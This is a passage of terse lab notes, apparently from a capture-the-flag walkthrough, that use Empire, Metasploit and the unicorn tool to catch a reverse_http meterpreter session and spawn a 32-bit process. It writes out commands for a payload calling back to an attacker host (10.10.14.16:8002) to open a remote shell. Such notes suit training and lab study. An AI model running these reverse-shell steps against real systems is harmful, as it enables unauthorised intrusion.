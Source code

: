 ![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871509110_image.png)

show info

    info

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871543818_image.png)

set payload

    set Payload reverse_http
    execute

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871605114_image.png)

on Metasploit multi/handler session is received

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871646911_image.png)

seeing commands available 

    help

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871706672_image.png)

*there should be a longer list of options to use but it was stated that this version of the exploit doesn’t support x64 and is more geared toward x86 system*

## spawning 32bit process
Empire:

    usemodule managemetn/runas
    info

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871867729_image.png)

set Cmd C:\windows\syswow64\cmd.exe 

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871922285_image.png)

*when attempting to execute the framework is asking for a Username or CredID.*

IppSec workaround using unicorn:
github link: https://github.com/trustedsec/unicorn

    ./unicorn --help

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872062620_image.png)

    python unicorn.py windows/meterpreter/reverse_http 10.10.14.16 8002

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872115525_image.png)

Metasploit, background session and create 32bit handler and change LPORT

    set paytload windows/meterpreter/reverse_http
    set LPORT 8002
    exploit -j
